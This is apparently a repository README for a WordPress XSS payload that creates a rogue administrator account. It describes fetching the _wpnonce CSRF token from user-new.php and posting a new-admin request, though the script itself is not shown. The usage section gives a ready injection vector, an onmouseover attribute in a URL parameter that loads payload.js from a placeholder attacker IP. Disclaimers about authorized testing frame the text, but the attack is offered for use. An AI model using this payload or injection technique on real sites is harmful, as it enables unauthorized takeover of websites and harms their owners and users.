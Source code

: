 # WordPress Weaponized XSS Payload: Create Admin User
This JavaScript code demonstrates how to exploit an **XSS (Cross-Site Scripting)** vulnerability on a WordPress site to create a new **administrator user** by injecting a malicious payload.

## ⚠️ Disclaimer

This code is provided **for educational purposes only**. The use of this code without authorization is illegal. Please ensure you have permission from the website owner before performing any tests or deploying this script.

## 🛠️ How It Works

1. **Fetch the HTML** of the `/wp-admin/user-new.php` page to extract the CSRF token.
2. **Parse the `_wpnonce`** value from the response.
3. **Send a POST request** to create a new administrator user with the provided credentials.
---

## 🚨 Legal Notice

This script is intended for **authorized penetration testing and educational purposes only**. Unauthorized use of this code against websites is illegal and unethical. The authors of this code do **not take responsibility** for any misuse.

---

## 🧑‍💻 Usage

1. Copy and paste the script into a browser console or inject it via an **XSS vulnerability**.
For example: ``http://target.com/?page=" onmouseover="var script = document.createElement('script'); script.src = 'http://XX.XX.XX.XX/payload.js'; document.head.appendChild(script);``
3. Ensure you are **authenticated as an administrator** in the target WordPress site.
4. The script will create a new administrator user with the provided credentials.
